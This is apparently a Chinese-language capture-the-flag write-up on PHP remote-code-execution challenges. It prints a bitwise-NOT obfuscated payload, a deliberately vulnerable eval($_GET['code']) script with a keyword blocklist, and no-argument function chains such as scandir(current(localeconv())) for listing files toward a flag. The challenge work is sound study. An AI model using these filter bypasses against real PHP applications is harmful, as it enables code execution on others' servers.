 根据php二维数组能够构造字符串，构造payload

```
?code=[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%8C%9C%9E%91%9B%96%8D][!%FF]([~%D1%D1%D0][!%FF]));
```

发现在没有过滤的条件下可以执行。

也可以绕过第一个过滤。

但是第二个过滤不能绕过，仔细分析第二个过滤，发现这就是一个无参数RCE的绕过！！！(?R)?，这个意思为递归整个匹配模式。所以正则的含义就是匹配无参数的函数，内部可以无限嵌套相同的模式（无参数函数）scandir函数传入了参数，所以不能通过。

```
var_dump(scandir(pos(localeconv())))  //可以使用
var_dump(scandir('.'))  //不能使用
```

## 第二题

```php
 <?php
//flag in flag.php
$a="";
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    if(preg_match("/ses|pos|end|next|name|chdir|var|impolode|tan|tall|sys|eval|var|high|show|read|base|url|print/", $_GET['code'])){
        die("no no no !");
    }
    eval("\$a=".$_GET['code']);
    if(preg_match('/flag/', $a)){
        die("no");
    }
    echo($a);
} else {
    show_source(__FILE__);
}
?>  
```

\w等价于[A-Za-z0-9]

第一个过滤可以看出只能传入无参数RCE，

首先构造读取当前目录文件，

因为scandir()函数没有被过滤，想到可以利用scandir('.')函数读取文件目录，但是scandir('.')函数不满足无参数RCE的形式，所以我们需要构造这个点。

利用localeconv() 取点，localeconv() 会返回当地的金融信息的数组，而第一个元素即为点，构造方法只需取第一个元素即可 pos()、current() 均可。

又因为pos被过滤，所以使用current函数来构造点，所以使用`scandir(current(localconv()))`来构造点。

常用PHP输出函数有

```php
echo "hello world!";//只能打印字符串
print_r("hello world!");//能够打印数组和字符串
var_dump("hello world!");//能够打印数组和字符串同时输出打印内容的数据类型
var_export("hello world!",true);//能够将字符串转换为php代码，第二个参数设置为true能够返回值
die("hello world!");//结束程序并打印内容
print()函数输出一个或多个字符串。
printf()函数，输出格式化的字符串
sprintf()函数，把百分号（%）符号替换成一个作为参数进行传递的变量
```
